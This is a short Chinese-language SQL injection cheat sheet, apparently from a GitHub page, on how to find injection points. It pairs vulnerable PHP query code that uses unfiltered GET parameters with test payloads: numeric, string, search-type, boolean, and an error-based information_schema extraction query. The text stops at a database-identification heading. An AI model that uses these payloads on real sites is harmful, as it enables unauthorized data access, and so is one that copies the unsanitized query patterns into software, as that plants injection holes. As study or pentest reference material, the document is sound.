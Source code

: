 # SQL注入

## 注入點測試

##### 數字型
```
$id=@$_GET['id']; //id未经过滤
$sql = "SELECT * FROM sqltest WHERE id='$id'";


?id=1'//报错
?id=1 and 1=1
?id=1 and 1=2//两者回显不同
```
##### 字符型
```
$sql="select * from user where username = '$name'";  //php
select  * from user where username = 'admin'  //sql
$query="select first_name from users where id='$_GET['id']'";  //字符型
1' union select database() #; //输入
select first_name from users where id='1'union select database()#' //sql语句变形

?id=1' and '1'='1--
?id=1' and '1=2--//回显不同
```
##### 搜索型
```
$sql="select * from user where password like '%$pwd%' order by password"; 
'and 1=1 and '%'='  //输入
select * from user where password like '%fendo'and 1=1 and '%'='%' order by password//sql语句

'and 1=1 and '%'='
password'//报错，90存在
password% //报错，95存在
password%'and 1=1 '%'='
password%'and 1=2 '%'='//回显不同
```
##### 布爾型
```
//输入没有回显
?id=1
?id=1'
?id=1''
?id=1%23
?id=1' and 1=1#1
```
##### 報錯型
```
//页面调试会有报错回显
?id=2' and (select 1 from (select count(*),concat( floor(rand(0)*2),(select (select (爆错语句)) from information_schema.tables limit 0,1))x from information_schema.tables group by x )a)--+
//通过某一种报错语句来判断
```
## 數據庫判斷

